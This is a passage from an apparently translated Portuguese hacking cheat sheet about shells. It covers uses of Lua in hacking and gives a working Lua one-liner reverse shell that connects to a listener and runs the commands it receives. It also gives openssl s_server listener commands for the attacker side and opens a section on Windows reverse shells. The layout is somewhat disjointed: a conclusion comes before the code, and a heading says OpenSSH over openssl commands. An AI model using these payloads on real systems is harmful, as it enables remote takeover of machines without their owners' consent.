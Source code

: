 ### Uso de Lua em Hacking

Lua pode ser usado em várias etapas do processo de hacking, incluindo:

- **Automatização**: Lua pode ser usado para automatizar tarefas repetitivas, como a execução de comandos em um shell ou a manipulação de arquivos.
- **Exploração**: Lua pode ser usado para escrever exploits e explorar vulnerabilidades em sistemas alvo.
- **Engenharia reversa**: Lua pode ser usado para analisar e entender o funcionamento interno de aplicativos e sistemas.
- **Desenvolvimento de ferramentas**: Lua pode ser usado para desenvolver suas próprias ferramentas de hacking, como scanners de vulnerabilidades ou frameworks de teste de penetração.

### Conclusão

Lua é uma linguagem de programação versátil e poderosa que pode ser usada em uma variedade de cenários de hacking. Sua simplicidade, eficiência e capacidade de integração a tornam uma escolha popular entre os hackers. Se você está interessado em aprender mais sobre Lua, existem muitos recursos disponíveis online para ajudá-lo a começar.
```bash
lua5.1 -e 'local host, port = "127.0.0.1", 4444 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, 'r') local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
## OpenSSH

Atacante (Kali)
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response
```
# Shells Windows

## Introdução

Um shell é um programa que permite aos usuários interagir com o sistema operacional. No contexto de hacking, um shell é usado para obter acesso remoto a um sistema alvo. Existem várias técnicas e recursos disponíveis para obter um shell em sistemas Windows.

## Técnicas Genéricas

### Reverse Shell

Um reverse shell é uma técnica em que o atacante cria uma conexão de rede reversa com o sistema alvo. Isso permite que o atacante obtenha um shell remoto no sistema alvo. Existem várias ferramentas disponíveis para criar um reverse shell em sistemas Windows, como o Netcat e o Metasploit.
